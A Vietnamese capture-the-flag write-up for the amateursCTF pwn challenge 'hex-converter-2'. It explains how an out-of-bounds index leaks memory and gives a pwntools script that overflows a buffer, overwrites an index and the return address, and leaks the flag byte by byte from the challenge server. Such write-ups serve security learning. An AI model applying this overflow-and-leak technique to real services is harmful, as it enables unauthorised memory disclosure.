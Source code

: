 # HEX-CONVERTER-2

## Overview

![img](/amateursCTF/Pwn/hex-converter-2/assets/overview.png)

- Bài cũng cho chúng ta 3 file, giống như [hex-converter](/amateursCTF/Pwn/hex-converter/README.md).

- Source code bên trong cũng na ná. Chỉ khác là giờ ở trong vòng while có kiểm tra `i < 0`, nhưng đây không phải cách giải quyết tốt :skull:
</br>![img](/amateursCTF/Pwn/hex-converter-2/assets/source.png)

## Idea

- Do trước khi kiểm tra `i < 0` để kết thúc hàm chương trình vẫn in ra kí tự thứ i, nên cách đơn giản nhất là mình cho chạy vòng lặp i chạy từ `0 -> 63` mở kết nối đến server, gửi payload lấy kí tự thứ name[-64 + i] rồi cộng dồn vào biến s nào đó. Sau đó in ra là có flag.

## Script

```python
from pwn import *


addr = 0xffffffc0
main_addr = 0x401186
s = ""

for i in range(64):
    p = remote("amt.rs", 31631)
    p.recvline()
    payload = b"a"*0x1c + p32(addr+i) + b"a"*8 + p64(main_addr)
    p.sendline(payload)
    s += p.recvline().strip().decode()

flag = bytes.fromhex(s)
print(flag.decode("ASCII"))
```

## Result

![img](/amateursCTF/Pwn/hex-converter-2/assets/flag.png)